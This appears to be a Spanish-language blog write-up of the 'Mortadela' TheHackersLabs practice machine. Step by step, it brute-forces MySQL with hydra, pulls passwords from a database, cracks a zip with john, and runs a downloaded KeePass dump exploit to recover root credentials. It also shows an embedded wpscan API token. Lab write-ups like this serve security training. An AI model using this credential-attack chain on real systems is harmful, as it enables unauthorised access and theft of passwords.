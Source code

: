 ```yaml
---
layout: post
title: "Mortadela"
date: 2024-06-06 18:10:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Mortadela </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/mortadela/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Mortadela/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Mortadela/arp.png){:.margin}

**2\.** Escaneo puertos y servicios activos en la maquina.

`sudo nmap -p- --open -n -Pn -T5 -sCV --min-rate=5000 192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/nmap.png){:.margin}

**3\.** En la web tenemos la pagina default de Apache.

`http://192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/80.png){:.margin}

**4\.** Fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://192.168.1.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html`

![img](/notas/public/img/thehackerlabs/Mortadela/gobuster.png){:.margin}

**5\.** Tenemos un wordpress pero con algun problemita, intenta cargar internamente recursos de otra ip; hago resolucion de ip con una regla de iptable.

`sudo iptables -t nat -A OUTPUT -d 192.168.0.108 -j DNAT --to-destination 192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/80code.png){:.margin}
![img](/notas/public/img/thehackerlabs/Mortadela/80ok.png){:.margin}

**6\.** Escaneo fallos en la web wordpress, encuentro poco mas de un usuario.

`wpscan --url http://192.168.1.3/wordpress/ --api-token="ikrj65a1YQMVwLNmjpYaWNM0dJcHjgsBracjFNRr2OI" -e`

![img](/notas/public/img/thehackerlabs/Mortadela/wpscan.png){:.margin}

**7\.** Luego de intentar mucho opte por hacer fuerza bruta al mysql con el usuario root.

`hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/hydra.png){:.margin}

**8\.** Investigando en las bases de datos mysql.

_\- Inicio en mysql_

`mysql -u root -h 192.168.1.3 -pcassandra`

![img](/notas/public/img/thehackerlabs/Mortadela/mysql.png){:.margin}

_\- Encuentro la contraseña del usuario mortadela_

`show databases;`

`use confidencial;`

`show tables;`

`select * from usuarios;`

![img](/notas/public/img/thehackerlabs/Mortadela/mortadelapass.png){:.margin}

**9\.** Accedo por ssh como usuario mortadela.

`ssh mortadela@192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/sshmortadela.png){:.margin}

**10\.** Encuentro un zip que contiene archivos de keepass, pero necesito una contraseña para descomprimir.

`ls /opt`

`unzip -l /opt/muyconfidencial.zip`

`unzip /opt/muyconfidencial.zip`

![img](/notas/public/img/thehackerlabs/Mortadela/unzip.png){:.margin}

**11\.** Me descargo el comprimido a mi maquina local.

`scp -r mortadela@192.168.1.3:/opt/muyconfidencial.zip .`

![img](/notas/public/img/thehackerlabs/Mortadela/scp.png){:.margin}

**12\.** Crackeando la contraseña del comprimido.

`zip2john muyconfidencial.zip > hash`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![img](/notas/public/img/thehackerlabs/Mortadela/john.png){:.margin}

_\- Descomprimiendo_

`unzip muyconfidencial.zip`

![img](/notas/public/img/thehackerlabs/Mortadela/unzipok.png){:.margin}

**13\.** Extraigo informacion del archivo volcado de keepass, me da posibles contraseñas y un caracter faltante al inicio.

`wget https://raw.githubusercontent.com/matro7sh/keepass-dump-masterkey/main/poc.py -q`

`python3 poc.py KeePass.DMP`

![img](/notas/public/img/thehackerlabs/Mortadela/dump.png){:.margin}

**14\.** Abrimos el database con keepass.

_\- Luego de varios intentos doy con la contraseña correcta_

![img](/notas/public/img/thehackerlabs/Mortadela/keepass.png){:.margin}

_\- Tengo las credenciales de root_

![img](/notas/public/img/thehackerlabs/Mortadela/keepassroot.png){:.margin}

**15\.** Obteniendo superusuario.

`ssh root@192.168.1.3`

![img](/notas/public/img/thehackerlabs/Mortadela/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>